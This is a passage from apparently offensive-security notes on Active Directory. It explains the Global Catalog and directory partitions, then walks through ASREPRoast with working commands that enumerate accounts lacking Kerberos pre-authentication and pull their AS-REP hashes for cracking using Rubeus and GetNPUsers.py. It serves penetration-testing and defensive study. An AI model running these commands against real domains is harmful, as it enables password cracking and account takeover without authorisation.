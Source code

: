 One point of the Global Catalog is to allow for object searching and deconfliction quickly without the need for referrals to other domains.
-> we can quickly query information about all domains and objects in a forest with simple queries to our primary domain controller

```powershell
$Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
$Forest.FindAllGlobalCatalogs()
```

###### *If you don't know, now you know: [Directory Partitions](https://docs.microsoft.com/en-us/windows/win32/ad/naming-contexts-and-partitions)*

Each domain controller in a domain forest controlled by Active Directory Domain Services includes directory partitions.

A directory partition is a contiguous portion of the overall directory that has independent replication scope and scheduling data.

By default, the Active Directory Domain Service for an enterprise contains the following partitions:

- **Schema Partition**: The schema partition contains the classSchema and attributeSchema objects that define the types of objects that can exist in the forest.
Every domain controller in the forest has a replica of the same schema partition.

- **Configuration Partition**: The configuration partition contains replication topology and other configuration data that must be replicated throughout the forest.
Every domain controller in the forest has a replica of the same configuration partition.
*Within this partition, we can get all domains information of the forest*

- **Domain Partition**: The domain partition contains the directory objects, such as users and computers, associated with the local domain. A domain can have multiple domain controllers and a forest can have multiple domains.
Each domain controller stores a full replica of the domain partition for its local domain, but does not store replicas of the domain partitions for other domains.

#### ASREPRoast

ASREPRoast takes advantages of users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).
If we perform a AS_REQ request to the DC on behalf of a vulnerable users, we can receive a message which contains a chunk of data encrypted with the original user key, derived from its password.

1) Enumerate vulnerable users
2) Request AS_REP message to the DC on behalf of any of those users, and receive an AS_REP message.

```bash
# Enumerate Vulnerable Users
Get-ADUser -filter * -Properties DoesNotRequirePreAuth | Where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name
# Request AS_REP message
## Using Rubeus
Rubeus.exe asreproast /user:USER [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]
## Using GetNPUsers.py: Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
## Using GetNPUsers.py: Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
